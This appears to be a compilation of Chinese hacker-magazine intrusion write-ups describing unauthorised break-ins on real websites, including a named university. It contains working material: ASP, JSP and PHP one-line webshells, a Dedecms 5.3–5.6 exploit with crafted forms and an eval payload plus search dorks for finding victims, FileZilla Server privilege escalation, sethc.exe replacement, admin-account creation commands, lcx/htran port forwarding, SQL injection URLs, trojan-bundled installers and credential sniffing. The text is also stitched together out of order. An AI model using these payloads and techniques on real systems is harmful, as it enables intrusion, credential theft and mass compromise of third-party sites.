- 2. 尝试寻找上传漏洞，来直接得到一个 WebShell。.NET 的网站很多时候都是可以 GIF89A 文件头欺骗的。

思路就是这样，但是在网站中找了几个链接，手动测试了“and 1=1”和“and 1=2”后没有发现报错信息，所以基本可以断定不存在注入漏洞。第二种方法成功率也很低，站内没有可利用上传点或注册入口，入侵过程开局并不顺利。


图1


图2

##### 二、端口扫描

我记忆中，高级黑客的入侵首先都是进行端口扫描，而我只是个菜鸟。在 WEB 脚本漏洞无果的情况下，尝试使用 X-SCAN 扫描整台服务器端口，期待有意外发现。最终发现服务器上有一个 FTP 弱口令，如图3所示。可是结果却总是出人意料，这个 FTP 根本就没有任何的站点文件，而只有一个 50 多M的压缩文件，如图4所示。

吊死，既然找不到捷径可走，那就只好安心地到“www.rootkit.net.cn/index.aspx”上登录与目标站点处于同一台服务器上的其它站点，尝试旁注入侵，如图7。


虽然服务器的 FTP 使用的是 SERV-U，可是这个弱口令用户只能控制当前的目录，更没有设置执行权限，如图5。这样一个没有任何利用价值的 Shell 确实勾不起我多大的入侵热情，但是既然已经走到了这一步，也不要浪费这个鸡肋般的 Shell 了。服务器上存在这个东西，就说明别人或多或少会用到它。我将这个压缩包下载到本地，打开一看，原来是一个瑞星的安装程序。我使用 RobinPE 程序直接向安装程序中插入了一个反弹木马，如图6。


旁注的优势就在于：

- 1、旁注得到一个 WebShell 后，可以直接访问目标网站的目录。
- 2、旁注后可以尝试利用系统中所安装的第三方软件漏洞来得到服务器的系统权限。
- 3、旁注后的站点如果支持 .NET 2.0 的话，我们就可以使用 WEBSNIFF1.0.aspx 来执行简单的嗅探，从而得到服务器的上行数据，很多时候上行数据中都包括了账号和密码（例如 FTP、HTTP、SMTP 等）。

重新把插入了木马的安装文件传回去替换了原有文件（RobinPE 程序在捆绑方面的优势就在于它可以计算宿主软件中的剩余空间，从而让软件在捆绑木马后不改变原来的大小，当然插入的木马文件也不要太大，如果超出了宿主软件中的剩余空间就无法插入了），接下来就是等待有人来下载运行了。

##### 三、旁注

盼星星盼月亮般地等待了将近两周，可还是没有任何陌生的肉鸡上线，或许是木马被查杀了，或许是根本就没人去下载安装软件吧，第一次尝到了被动入侵的无奈。我们不能在一棵树上吊死，所以，我们现在最需要的就是通过旁注先搞到一个 WebShell。即使这个 WebShell 不能跳转目录，即便服务器上没有第三方软件的漏洞，只要支持 .NET2.0，我们得到目标网站的权限就只是个时间问题而已。在查询出的同一服务器的站点列表中找来找去，终于发现了一个“沸腾尘缘雅境核心”的 Web 系统，如图8所示。


大家都知道，尘缘雅境在各个版本中都爆出了很多致命漏洞，而且很多漏洞都是通杀多个版本的。我们首先查看用户注册页面的源文件，然后修改用户注册页面中的 purview、oskey 两个参数的 VALUE 分别为 99999 和 SUPER，如图9所示，然后再修改 ACTION 后面的提交地址，因为我们是要在本地提交，所以要写绝对地址，而源文件中是相对地址，如图10所示。把这个文件另存到本地电脑中，并命名为 1.htm，然后使用浏览器打开，填写好注册信息后就可以注册成一个管理员了，如图11所示。


接下来就是添加文章，在页面的最后我们会发现有个“首页图片”的地方，在这里填写好我们修改过的 ASP 木马的 WEB 地址，并且选择下面的保存图片选项中的“是”，如图12。

```asp
<%
response.write "<% execute request("""
response.write "value"")"
response.write "% & ">"
%>
```


懂得 ASP 语言的读者一定都知道这段代码就是在页面中输出“<% execute request("value") %>”，而沸腾的远程图片保存漏洞是不验证远程图片的格式的，所以我们将以上内容的 ASP 文件保存到自己的空间上，就可以利用这里的远程图片保存漏洞来得到 WebShell 了。接下来点击“添加”，提示成功后，返回编辑该文章就能看到我们木马的地址了，如图13。


```asp
<%
response.write "<% execute request("""
response.write "value"")"
```

限于文章篇幅有限，可能我上面的介绍有些过于简略了，具体内容大家可以到百度上搜索一下。其实这个漏洞即使是普通用户也可以利用的，只是系统设置了不允许普通用户登录，所以只有注册为管理员了。

##### 四、最终目标

登录 WebShell 后，我查看了一下服务器的基本信息，命令行执行组件 wscript.shell 已经被删除了，自己上传的 CMD.exe 也无法运行。虽然安装了 SERV-U，可是 ASP 版的提权工具根本就没有执行命令（现在 Serv-U 6.x 以上版本中，不修改默认管理员的情况已经很少了，这不能不说是中国网络安全的一个进步）。在服务器上也没有发现其它可以利用的第三方软件。我的思路还是返回到了先前所设想好的，就是上传 WEBSNIFF1.0.aspx 脚本上去，可是在 WEB 中访问的时候却发现根本就无法解析，可见这台虚拟主机还是设置了脚本的访问权限。我们拿到手的这个 WebShell 只支持 ASP 而不支持 .NET，暂时冷静了一下，整理一下我们的思路，看看我们都得到了什么：

- 1. 一个目标网站同一服务器上的 WebShell，只支持 ASP。
- 2. 目标网站的域名。


图14

再回过头来看这个 WebShell 所在的目录，是“D:\VHOST\web\XXX.net”这样子的，如图14所示。貌似服务器的管理员为了方便管理每个站点，直接将域名作为了空间的文件夹名，那么我们是不是可以从这个站点跳转到别的站点呢？直接在目录地址中跳转到目标网站的空间“D:\VHOST\xxxx.COM”（目标网站的域名），但很遗憾，提示没有权限，如图15所示。


图15

看来我的 WebShell 对目标网站连个目录浏览权限都没有，真是郁闷啊。当一支烟快燃烧完的时候，我突然想到，既然目标站点不让跳转，那其它的站也不允许我们查看吗？虚拟主机设置的一般都很变态，但是没有好的办法，只能碰运气了，直接将服务器上的域名挨个复制到地址栏，终于有了惊人的发现：跳转了几个 ASP 站点都成功了，可是无一例外都不支持 ASPX，但是工夫不负有心人，最终还是找到了一个支持 .NET 的站点目录，并且这个目录是由我所在的用户组完全控制的，如图16所示。


图16

在这个站点里逛了一圈，发现数据库居然采用的是 ACCESS。如果是 MSSQL 的话，我们没准儿就可以利用 LOG 备份来得到一个 Shell 了（因为 MSSQL 的用户很有可能是 DB_OWNER 权限的，而在 MSSQL2000 下 DB_OWNER 用户是可以 LOG 备份的，当然 2005 以上版本不包括在内）。虽然不是 MSSQL 数据库，但我们还有 .NET 2.0 这张王牌啊，直接上传了 linx 修改的 websniff1.0.aspx，使用 IE 打开，选中“FTP password”那项，点击“Start”按钮，其它的什么都不用做，终于可以开始嗅探了，如图17所示。


图17

下面我简单介绍一下 WEBSNIFF1.0。这个工具是 CNQING 一年前出品的，是一个在 .NET 2.0 环境下单线程的 WEB 嗅探工具，利用这个工具我们可以嗅探到本地的 HTTP、SMTP、FTP 数据。最初的 WEBsniff 并不完美，嗅探到的数据会很大，有很多垃圾信息，而且容易出现假死状态。后来 LINX 大哥对程序进行了修改，修正了以上一些 BUG，并增加了自动嗅探功能。要知道原版本必须在 FIREFOX 浏览器下使用，因为在 IE 下会错过一个参数的设置；而在 LINX 修改版中，只要不使用自定义参数，在 IE 中也是可以执行嗅探的，而且 LINX 修改版已经可以同时嗅探 FTP、SMTP、HTTP 三项数据。

也可以暂时关闭浏览器，这在原版中也是不可能的。可见，在无法得到系统权限的情况下，使用 WEBSNIFF 可以帮助我们拿到目标站点的一些敏感数据，比如 FTP 账号及密码、WEB 和邮箱的登录账号及密码等，可以加固 WebShell 的安全系数。

具体的功能和使用情况就请大家在以后的人侵中继续摸索吧，我们还是继续此次的人侵。电脑 24 小时开机（WEB-SNIFF 是不能够长期关闭浏览器嗅探的）不断嗅探目标网站所在服务器的 FTP 数据，虽然得到了不少 FTP 账号和密码，可还是没有发现目标网站的账号信息，难道这个网站就不使用 FTP 吗？正打算另寻方法的时候，目标网站的 FTP 密码终于来了，呵呵，真是喜出望外了，如图18所示。


图18

（文章中涉及到的 RobinPE、websniff1.0.aspx，已经收录在了光盘中）

##### 五、结局

虽然拿到了目标网站的权限，可多少还是有一些运气成分在里面的。假如目标网站没有开 FTP，或者用户从来不登录 FTP 的话，那我们的人侵又该如何继续呢？这个问题就留给大家来思考。


### 记一次 FileZilla Server 提权

txcbg

前段时间检测一个企业网站，在检测该企业的一个下属公司的网站时，通过用户名 admin 和密码 123456 进入了后台，后台目录就是公司汉语拼音+admin，诸如 xxxadmin 这种形式的。在后台通过“产品图片”上传了一个改名为“2010.asp;x.jpg”的 ASP 一句话木马，顺利得到了 WebShell，WebShell 的地址为“http://www.xxx.com/pic/22302010.asp;x.jpg”，如图1。


图1

使用一句话木马的“Get Drivers”功能列出了 C、D、E、F、G、H 盘的大小和可用空间的大小，看表权限还比较大，于是我就想来尝试一下提权。使用一句话木马获得网站的物理路径后尝试上传 aspx 木马 ASPXSpy2009，上传成功了，但在访问时却显示如图2所示，看来这个网站不支持 aspx 文件啊。


图2

为了方便操作，我使用一句话木马上传了一个 asp 大马，通过 asp 大马发现服务器权限设置得很松，几乎可以浏览任何目录，也可以浏览别的网站目录，并且有写权限。“c:\windows\system32”目录不出意料地只有读取权限，WScript.Shell 没有删除，尝试使用系统中的“c:\windows\system32\cmd.exe”来执行命令，提示拒绝访问。我上传了一个 cmd.exe 到网站目录下，这次可以执行命令了。通过执行“netstat -an”命令发现 3389 端口开放了，使用我的远程桌面连接程序连接一下，发现可以连接，因此登录服务器的 3389 就成了我的一个目标。通过“net start”命令还发现服务器安装了 FileZilla Server FTP Server、McAfee 杀毒软件以及 MSSQL。

我在服务器的硬盘上翻查着有用的信息，发现服务器上有很多网站，但没有找到 sa 用户的密码，甚至没有发现服务器上的任何一个网站使用的是 MSSQL 数据库。继续翻看硬盘，我拿到的 WebShell 的网站是在“F:\dongtai”目录下，在“F:\wood”目录下发现也有很多网站，在一个网站的目录下尝试上传 ASPX-Spy 2009，这次终于可以运行了，如图3。有了 aspx 的 WebShell 使用起来就更方便了，首先 WScript.

## 一个人的战争

图3

图4

既然webshell已经拿到手了，就要考虑提权了。一个网站下的webshell居然可以浏览别的网站目录下的文件，还有写权限，看来自管理员的安全做得实在不怎么样啊，不试试提权还真对不起他了。想了想常用的提权方法，好像都用不上。对了，刚才不是发现服务器上安装了FileZilla Server FTP Server吗，说不定它就是一个突破口。在“D:\Program Files\FileZilla Server\”目录下找到了FileZilla Server的安装目录，尝试复制该目录下的FileZilla Server.exe，复制成功了，如图4，这说明该目录可写。

这对我绝对是个好消息，通过tasklist命令发现了FileZilla Server.exe和FileZilla Server Interface.exe正在运行。使用木马替换上面的任意一个文件，等到FileZilla Server重启或系统重启后就会运行我们的木马了。到此我已经找到了一种提权的方法。这个替换文件的提权方法虽然可行，但弊端也很大，即使提权成功了，也会把服务器上的FileZilla Server搞挂，很容易被管理员发现。提权本来就是无聊玩玩，为此影响到服务器的正常运行那可就不好了。

如果真要使用替换文件的方法来提权，我们还可以考虑对FileZilla Server.exe进行文件插码，加入添加一个系统管理员用户的代码。这样当系统重启后就会添加一个管理员用户，使用添加的管理员用户再直接登录3389也是一种提权方法。这比使用木马直接替换FileZilla Server.exe要更好，但仍然要对FileZilla Server.exe进行修改，也可能会被管理员发现。再来找找，说不定还有更好的方法。

我在FileZilla Server的安装目录下发现有一个FileZilla Server.xml文件，使用webshell查看它的内容，发现它保存着FTP软件FileZilla Server的用户信息。一个用户的信息类似为：

```xml
<User Name="adcd">
  <Option Name="Pass">c5273616ec9bd25e9...</Option>
  <Option Name="Group"/>
  <Option Name="Bypass server userlimit">0</Option>
  <Option Name="User Limit">0</Option>
  <Option Name="IP Limit">0</Option>
  <Option Name="Enabled">1</Option>
  <Option Name="Comments"/>
  <Option Name="ForceSsl">0</Option>
  <IpFilter>
    <Disallowed/>
    <Allowed/>
  </IpFilter>
  <Permissions>
    <Permission Dir="F:\">
      <Option Name="FileRead">1</Option>
      <Option Name="FileWrite">1</Option>
      <Option Name="FileDelete">1</Option>
      <Option Name="FileAppend">0</Option>
      <Option Name="DirCreate">1</Option>
      <Option Name="DirDelete">1</Option>
      <Option Name="DirList">1</Option>
      <Option Name="DirSubdirs">1</Option>
      <Option Name="IsHome">1</Option>
      <Option Name="AutoCreate">0</Option>
    </Permission>
  </Permissions>
  <SpeedLimits DlType="0" DlLimit="10" .../>
  <Download/>
  <Upload/>
</User>
```

```xml
</SpeedLimits>
</User>
```

其中“User Name”后面是FTP用户的用户名，“Pass”后面是经过MD5加密后的密码值（32位），“Permission Dir”是该FTP用户可以管理的目录……通过修改FileZilla Server.xml来添加用户并提权。

Shell可以直接调用系统目录下的cmd.exe就能执行命令了，不用再像调用网站目录下的cmd.exe那样要带网站目录的路径才行；另外就是利用ASPXSpy的“IIS Spy”功能发现了服务器上运行着140个网站。我测试了一下，发现aspx的webshell对于“C:\Windows\System32\”目录下的文件同样只有读取权限。

在服务器的H盘根目录下发现了FileZilla_Server-0_9_31.exe，安装后会弹出登录窗口。FileZilla Server默认管理端口为14147，默认管理密码为空，点击“OK”可登录控制台。

点击“Edit”菜单下的“Settings”进入设置界面，选择“Admin Interface settings”并通过“Change admin password”修改管理密码，如图7。

“IP Addresses which are allowed to connect to the admin interface:”用于设置允许连接管理控制台的IP，默认情况下只有127.0.0.1可连接。

这些设置保存在FileZilla Server安装目录下的FileZilla Server Interface.xml中，使用记事本可查看相关字段。

```xml
<FileZillaServer>
  <Settings>
    <Item name="Last Server Port" type="numeric">14147</Item>
    <Item name="Last Server Password" type="string"/>
    <Item name="Always use last server" type="numeric">0</Item>
    <Item name="Last Server Address" type="string">127.0.0.1</Item>
  </Settings>
</FileZillaServer>
```

如图8所示，“Last Server Port”是管理端口，“Last Server Address”是上次登录IP，“Last Server Password”会显示管理密码内容。

由此可知，FileZilla Server的管理密码以明文形式保存在FileZilla Server Interface.xml文件中。普通FTP用户的密码经过MD5加密后保存了，而重要的控制台管理密码却以明文的形式保存在文件中，难道是疏忽了？

我马上想到服务器上FileZilla Server的控制台管理密码是否修改了。使用webshell查看服务器上FileZilla Server安装目录下的FileZilla Server Interface.xml，发现密码果然更改了，修改为了bmlink，把它记录下来，说不定有什么用。

下面来看怎样添加用户：点击有一个小人头像的“Users”按钮就打开了用户管理界面，在这里可以增加、删除FTP用户，并对FTP用户的主目录、权限等进行设置。右上角的“Users”编辑框下会显示所有的FTP用户列表。由于还没添加任何FTP用户，因此用户列表是空的。我们来添加一个用户，点击“Add”按钮会弹出“Add user account”对话框，输入想要添加的FTP用户名，这里我输入了hackerxfiles。下面的选择用户组不用管，点击OK按钮后就添加了一个用户。我们再给这个用户设置一个密码，选择“Password”单选框，在后面输入想要设置的密码，这里我设置密码为123456，如图10。

接下来设置这个FTP用户的主目录，点击“Shared folders”选项，点击“Add”按钮来添加主目录。这里主目录我选择了C盘，单击一下刚才添加的目录“C:\”，把右面的权限都选上，如图11。然后点击左下角的“OK”按钮，用户就添加完成了。试着使用该用户登录一下FTP，功能一切正常，如图12。

本机会添加用户了，就该通过修改FileZilla Server.xml来给服务器添加用户了。本机添加hackerxfiles这个FTP用户后，在FileZilla Server.xml中的信息如图13所示。本来我想通过直接复制添加的用户信息到服务器上，但不确定用户信息具体是从哪里开始、哪里结束。为了稳妥起见，我决定采用把服务器上的FileZilla Server.xml下载到本机，覆盖本机的FileZilla Server.xml，添加好用户后再使用添加好用户的FileZilla Server.xml覆盖服务器上的FileZilla Server.xml。

把服务器上的FileZilla Server.xml下载到本机并覆盖本机的FileZilla Server.xml后，为了使新的FileZilla Server.xml生效，还需要依次点击开始菜单中的Stop FileZilla Server和Start FileZilla Server来重启FileZilla Server。登录管理控制台，添加一个名为test、密码为123456、对C盘有完全权限的用户，然后把FileZilla Server.xml上传到服务器中，备份服务器上原来的FileZilla Server.xml后覆盖。只要服务器重启或FileZilla Server重启，那么添加的用户就会生效了。管理员一般不会无缘无故重启的，看来只能耐心等等了。

为了知道服务器是否重启，我使用webshell执行命令systeminfo，发现了如下的命令回显：“系统启动时间：15天13小时44分19秒”。这说明系统已经15天没有重启了，还是耐心等待吧。我每天都使用webshell执行一次systeminfo命令来查看服务器重启了没有，但令我失望的是系统启动时间一天一天增加，可就是不见服务器重启。我等不及了，看来要另想别的办法了。

使用什么办法才可以让服务器重启呢？我搜索了一下在webshell下重启服务器的方法，大多数都是消耗完服务器的系统资源让服务器重启；我找到了一个guest权限下可以运行的让服务器重启的程序……通过webshell让服务器重启的方法看来也行不通了。

静下心来想了一想，我现在使用的提权方法，只需要等服务器重启就可以提权成功了，那有没有别的方法呢？通过搜索发现网上介绍的FileZilla Server的提权方法……在虚拟机中测试并尝试通过端口转发与管理接口连接。

通过webshell把FPipe.exe上传到网站根目录下，然后执行命令：

- `C:\www\FPipe.exe -v -l 12345 -r 14147 127.0.0.1`

命令执行后使用FileZilla Server Interface连接192.168.32.128的12345端口，成功登录了，如图14、图15。

在虚拟机里测试成功了，下面就来到远程服务器上实际提权……通过执行`netstat -an`命令发现12345端口在监听了，就是连不上。

连不上，telnet一下服务器的12345端口，连接失败，可能是服务器上的防火墙阻止了连接……这个方法又没有成功。

睡了一觉后，我打算再碰碰运气。首先使用htran从服务器上反弹了一个代理到我的电脑上，使用SocksCap32连接上代理后再进行连接，依然登录不成功……尝试使用lcx进行端口转发并连接到本地管理端口。

成功把数据转发了出来，使用FileZilla Server Interface连接，连接IP为127.0.0.1，端口14147，输入管理密码后终于登录成功……随后添加FTP用户并上传下载文件替换sethc.exe与cmd.exe。

执行完这些命令后就完成了在服务器上使用cmd.exe替换sethc.exe……在登录界面按5下Shift键可调出cmd窗口；在cmd窗口中执行：

- `net user 123 123 /add`
- `net localgroup administrators 123 /add`

添加管理员用户。

图16

扫描后把PwDump7传了上去，成功抓取了用户的hash，使用7.9G的彩虹表成功破解出了管理员的密码为admin!@#321，然后使用管理员用户登录了远程桌面，如图18。

图17  
图18

把替换的sethc.exe恢复过来，再把建立的FTP用户删掉，清理一下FileZilla Server的日志，提权就完成了。整个提权的过程中没用到什么新技术，都是一些老方法和老工具的组合。从找到提权方法到找到更好的提权方法，根据遇到的问题不断变化应对的方法，最终用自己满意的方法完成了提权。

> （文章中涉及到的guest重启服务器.exe、lcx.exe，已经收录在了光盘中）

## 纯JSP注入入侵大学

银翼[H.U.C]

这两天QQ好友里有一哥们的上线频率突然高了起来，我觉得很是奇怪。这哥们当年高中时可是出了名的抓紧时间爱学习的NB娃，可惜高考的时候有点儿小失误，虽然最后仍然是一所重点大学吧，但还是不太理想。不过既然已经是这样子了，也没什么好说的，把握当下才是关键啊。嘿嘿，于是我就想看看他们学校的网站怎么样，没办法，这可是兴趣导致的习惯啊^_^。

打开他们学校的网站后，我随手在网站上点了个链接，就来到了“http://218.X.X.XXX.251:8006/index.jsp?cd=news&ac=view&id=4445”这个地方。哇，jsp，这可是传说中的jsp啊，我印象中使用jsp的一般都是大型网站，看来这下有得玩了，先在网址后面添加个单引号吧。结果提交后报错了，如图1。

然后在网址后面分别添加“and 1=1”和“and 1=2”进行测试，分别返回了正常和错误的页面，由此可以确定存在注入漏洞。接下来的工作就是确定数据库了，一般来说jsp的搭配就是mysql或者oracle数据库，先提交“and 1=1--”，返回了正常页面；再提交“and 1=1#”，也正常，确认使用的是mysql数据库。

好了，数据库确认了，来爆数据吧。使用“order by”来看字段，一直提交到“order by 11”时返回正常页面，提交到“order by 12”时返回了错误页面，由此可以确认字段数为11。

接下来我们看看页面里可以回显数据的地方，提交“and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11”，如图2所示。再通过回显位置测试（如图4）确定可利用列。

我们就选择2、3、5这三个位置来爆数据吧。来看看数据库的一些信息，提交：

`http://218.xx.xxx.251:8006/index.jsp?cd=news&ac=view&id=4445%20and%201=2%20union%20select%201,user(),version(),4,database(),6,7,8,9,10,11`

可以看到是root权限，mysql数据库的版本是5.0.83，当前数据库是ibnewsdb，如图3。

后台登录页在网站的下方就给出链接了，我们打开后输入账号和密码，选择好角色就能登录了。后台拿webshell费了我一些时间，系统使用的是fck编辑器。我就心想，jsp一般都是上传过滤很不严谨，我就想从fck上传，结果jsp和war的后缀都不能上传。后来就一直想着怎么才能绕过，但死活都不能成功，郁闷了。找来找去，终于在添加链接的地方找到了答案，因为在添加链接图片的地方没有过滤，我们可以直接上传jsp文件，就这样拿到了webshell，如图5、图6。

接下来就是爆表名和内容，这儿搞得我很是郁闷，因为这个数据库里的表实在是太多了，判断哪个表才是管理员表的中间过程就省略了，免得占用过多版面。最后我在ib_privilege_user里面找到了管理员的相关信息，好在管理员的信息还不少，密码也没太难为我，到了第二条时就在网上跑出来了。具体提交的语句为：

`http://218.x.x.x.x.251:8006/index.jsp?cd=news&ac=view&id=4445%20and%201=2%20union%20select%201,USERNAME,PASSWORD,4,database(),6,7,8,9,10,11`

这是一次非常典型的嗅探入侵过程，目标就是我所在的学校——北京交通大学的主站。本次入侵过程中并没有用到什么新的技术，主要就是让新手朋友们能够了解一下如何通过嗅探来达到入侵的目的。在渗透入侵过程中，最重要的就是思路的运用嘛。

#### 一、信息刺探

主站的 IP 地址为 202.112.144.31。我大致看了一下，全是静态页面，在同服务器上也没有其他站点。服务器只开了 21 和 80 端口，使用的是 Linux 系统……发现只有一个 202.112.144.32 开放着，那我们就来看看它的情况吧。

我使用 nmap 对 202.112.144.32 的端口情况进行了扫描，如图 1……首先是 jsp 的不好搞，其次一般学校对于教务处的安全也会比较重视。


#### 二、初探虚实

看到 asp 的站点，最先想到的就是 SQL 注入了。随手点开了一个新闻链接，在网址后面加了个“'”，提交后出现了未闭合引号的错误，如图 2，确定网站存在注入漏洞……得到了 manage 和 dbase 这两个比较敏感的目录。


登录网站后台，发现这个后台基本上没有什么权限，好在发现了还有 WebEditor 编辑页面，利用这个网站内容编辑器拿 webshell 的方法有很多……

## 一个人的战争

查看其地址，得到了 eWebEditor 的目录。我试了试默认密码、下载默认数据库，还有前段时间上传页面的利用，但都失败了……可是要想通过它获得 webshell 还是有一定难度的。


进行到这里，好像没什么可以利用的了……突然看到了 ewebeditor 下的上传目录 uploadfile 里有一个 asa 文件，如图 4。果真是我盼望已久的 WebShell，但我们没有密码。


#### 三、柳暗花明

思路到这里好像僵死了……突然发现了有个资源下载的地方，链接地址形如“download.asp?FileUrl=2008611761278221.doc”。如果这个参数没有过滤“../”的话，就可以通过目录跳转下载其他文件。


于是我就开始尝试以 web 根目录下的 index.asp 为标志，使用“../”逐级跳转……终于出现了下载框，如图 6。这下就好办了，我们可以下载此前遇到的 webshell 并查看源码获取登录密码。


图6


图7

根据那个 web-shell 的相对路径来构造 `download.asp?FileUrl=../../.../ewebeditor/uploadfile/2008611568654565.asa`，成功下载到 webshell。打开后发现内容为乱码，但开头 `<%@ LANGUAGE = VBScript.Encode %>` 提示其使用 ScriptEncoder 加密。随后通过在线解密页面处理文件，得到密码为 `abc123`。


图10

上传 `htran` 并在本地执行 `htran.exe -listen 9999 8888`，再在 webshell 中执行 `D:\xxx\sys.exe -slave x.x.x.x 9999 127.0.0.1 3389`，将服务器 3389 映射到本地 9999。连接本地 8888 后可进入目标远程桌面。

#### 四、终结服务器系统权限

重新登录 webshell（密码 abc123）后，先扫描开放端口，发现比远程扫描多出 3389。执行 `net start` 未见杀软与防火墙服务，并注意到同机还存在教务处网站，若可在 system 权限下利用该站点可能进一步提权。


图8

通过目录与站点对应关系排查：学生处站点与教务处站点分别对应不同目录。在服务器上继续搜索，利用 webshell 搜索功能以特征文件名（如 `infor_detail_window.jsp`）定位到实际路径，随后上传 JSP 木马并执行 `whoami`，确认权限为 `system`。


图9

虽然在 JSP webshell 下已获系统权限，但为便于嗅探，尝试连接远程桌面。由于外网直连 3389 受限，继续使用 htran 做端口转发，通过本地端口间接访问目标主机。

## 五、嗅探拿下主站 web 权限

在教务处服务器执行 `tracert 202.112.144.3`，确认与主站处于同一交换环境，具备嗅探条件。安装 Cain 与 WinPcap 后对目标开展嗅探，捕获到 FTP 账户（其中包含 `webadmin`），登录后发现 FTP 目录即网站目录，上传 `c99` 后获得主站 web 权限。


图11


图12


图13

### 教你利用 Dedecms 复制 0day 批量拿 Shell

hx小龙（白雪龙）

现在我们来发表一篇文章，如果发表的文章需要系统审核也无妨碍，这完全不影响我们最终是否可以成功拿到 Webshell。把标签转到“内容中心”，选择系统模型内容下的“发表文章”，现在我们随便发表一篇文章……可以看到如下的代码：


图1

Dedecms 又名织梦 CMS，是国内最专业的 PHP 网站内容管理系统之一，这套系统在国内使用非常广泛。本文介绍 Dedecms V5.3—5.6 的注入漏洞与利用过程，并说明如何通过该漏洞获取 Webshell。

```html
<form action="http://127.0.0.1/dede/member/uploads/edit.php" method="post" enctype="multipart/form-data">
<input type="hidden" name="aid" value="2"/>
<input type="hidden" name="mediatype" value="1"/>
<input type="text" name="oldurl" value="../dede/uploads/userup/2/1.gif" />
<input type="hidden" name="dopost" value="save"/>
<input name="title" type="hidden" id="title" value="wawa" class="intxt"/>
<input name="addonfile" type="file" id="addonfile"/>
<button class="button2" type="submit">更改</button>
</form>
```

我们要对其中几个数据进行更改：首先更改提交路径（form action），再修改 `aid` 值，以及图片提交路径 `oldurl`，改为目标站点的相关路径后保存。

如果是在本地测试，由于程序刚安装后的初始化问题，需要先在后台建立分类并注册普通用户，然后进入会员中心进行后续测试，如图2所示。


图2

```php
{dede:name runphp='yes'}
$fp = @fopen('wa.php','a');
@fwrite($fp,"<?php @eval($_POST[w]); ?>\r\n");
@fclose($fp);
{/dede:name}
```


图3

其中“wa.php”是我们最后要生成的一句话的文件名，大家可以随意更改。把代码保存为 *.gif 上传即可。如果程序阻止了这个图片文件上传，我们还可以在文件开头加上欺骗性语句 gif89a。如果提交成功，那么程序就会提示“文件修改成功——>附件不存在”，如图4所示。

大家看到了这个提示，就表明我们的入侵已经成功一半了。上传的文件会在程序安装根目录“uploads\userup\2（你的 uid）”下生成一个图片文件。假如我们上传的是 1.gif，那么程序就会生成名为 1.gif 的图片文件，如图5所示。


图4


图5

下面我们来修改源码构造另一个表单，以编辑形式打开“最后提交.html”，代码如下：

```html
<form action="http://127.0.0.1/dede/member/article_edit.php" method="post" enctype="multipart/form-data">
  <input type="hidden" name="dopost" value="save" />
  <input type="hidden" name="aid" value="1" />
  <input type="hidden" name="idhash" value="702f4aebf0..." />
```

```html
...9549c9be13ccce8a4ab0c0" />
<input type="hidden" name="channelid" value="1" />
<input type="hidden" name="oldlitpic" value="" />
<input type="hidden" name="sortrank" value="1282049150" />
<input name="title" type="text" id="title" value="黑人测试" maxlength="100" class="intxt" />
<input type="text" name="writer" id="writer" value="测试" maxlength="100" class="intxt" style="width:219px" />
<input type="hidden" name="dede_addonfields" value="templet" />
<input type="hidden" name="templet" value="../uploads/userup/2/1.gif" />
<input type="hidden" id="body" name="body" value="aaaa" style="display:none" />
<label>隶属栏目：</label>
<select name="typeid" size="1">
  <option value='1' class='option3' selected=''>测试</option>
</select>
<button class="button2" type="submit">提交</button>
<label>验证码：</label>
<input name="vdcode" type="text" id="vdcode" maxlength="100" class="intxt" style="width:50px;text-transform:uppercase;" />

</form>
```

依然是先修改程序的提交路径和文章 aid，随后来到 `<input type="hidden" name="idhash" value="702f4aebf09549c9be13ccce8a4ab0c0" />`，修改文章的 `idhash`。根据上面图3所示页面，我们可以看到这里应该修改的 idhash 值为 `91a8c2268-c525d8acfc68706c4b98e1f`。接下来就是修改刚才提交的图片地址 `<input type='hidden' name='templet' value='../uploads/userup/1/1.gif'>`，在图片名字没有做任何更改的情况下直接更改成自己的 uid 即可。我是新注册的 id，所以我的 uid 是 2，最后提交的图片是 `1.gif`，我最终的修改结果为 `value="../uploads/userup/2/1.gif"`。

最后一步就是修改提交栏目的 uid 和修改验证码图片地址。来到 `<option value='1' class='option3' selected=''>测试</option>` 中，对照源代码中的栏目 id 进行修改。而代码中的 `http://127.0.0.1/dede/include/vdimgck.php` 就是验证码地址了。因为有些网站需要验证码，有些则不需要，因此为了绝对成功我们还是要对这个选项进行修改。一切准备就绪后保存退出，进行最后提交。

交后，则会出现如图6所示的界面。

现在我们直接点击“查看文章”，弹出的页面如图7所示。如果这个提交结果成功出现，就表明该网站已经被我们拿下了。在网站目录“/plus/”下已经成功写入了一句话木马，如图8所示多出了一个 wa.php 文件。我们打开 wa.php 查看文件内容，如图9所示。


从我们的 hack 工具包中拿出“中国菜刀”，在 webshell 地址栏中填入一句话木马地址 `http://127.0.0.1/dede/plus/wa.php`，密码处填写 `w`，最后点击“连接”按钮即可，如图10所示。以上就是 Dedecms v5.3—5.6 最新漏洞获得 Web-shell 的整个过程。需要大量“身手”的叉子们就赶快行动起来吧！我们只要在搜索引擎中搜索关键字“Powered by DedeCMSV56_GBK”或者“inurl:tags.php 标签（想要搜索的标签）”，就可以找到很多使用 Dedecms 搭建的网站了。为了各位叉子课后温习，我特意做了整个漏洞利用过程的视频教程，也一并提供给大家了。

（文章中涉及到的 DedeCms v5.6 GBK build 100429、漏洞利用教程、图片提交.html、最后提交.html、中国菜刀，已经收录在了光盘中）


### 雌雄

已经弃“黑”从商好久了，最近一直在忙着灯饰批发生意，不过我对于网络的兴趣依然很浓厚，新漏洞新 0Day 自然也不会放过。前些日子在黑帽上公布了一个 IIS6.0 的本地溢出程序，好多小菜测试都不成功，但我测试效果却挺好。在此就把一个拿站的完整例子分享给大家。

目标是一个 IT 公司的网站，我从网上随手找的。打开网站随便点击一个新闻链接，可以发现其新闻发布系统格式为 ASP。删除参数“smallclassname=new”并加入特殊符号“'”来测试是否存在注入漏洞，提交后页面出错了，并提示字符串语法错误，这表示存在注入漏洞。初步估计该网站使用 ASP+ACCESS 数据库架设而成，如图1。


把这个网址丢到啊D或明小子里，就可以顺利猜解出管理员账号和密码了。这些步骤对小菜们来说都是轻车熟路，我就不多作介绍了。通过注入工具得到管理账号和密码，但是却没有找到后台登录地址。好在网站还存在收录文件 robots.txt，我尝试访问 robots.txt 并手工探测常用的管理目录名称，成功发现了管理登录地址和其他敏感信息，如图2。

从图中可以看到该网站有三个管理后台：一个是新闻发布系统，一个是后台管理系统，还有一个是上传管理系统。使用猜解出来的管理员账号和密码，成功登录进入新闻系统管理界面，如图3。

